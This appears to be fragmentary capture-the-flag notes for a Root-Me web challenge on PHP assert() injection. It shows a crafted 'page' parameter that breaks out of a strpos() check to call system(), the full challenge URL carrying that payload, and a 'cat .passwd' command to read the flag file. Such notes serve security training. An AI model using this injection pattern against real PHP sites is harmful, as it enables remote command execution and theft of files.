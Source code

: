 (strpos('includes/', ww', 'r') == true or system('**shell**') and strpos('1.php', '..') === false)  = true</br>
==> assert("strpos('includes/', ww', 'r') == true or system('**shell**') and strpos('1.php', '..') === false") run</br></br>
http://challenge01.root-me.org/web-serveur/ch47/?page=ww', 'r') == true or system('**shell**') and strpos('1</br>
shell: cat .passwd
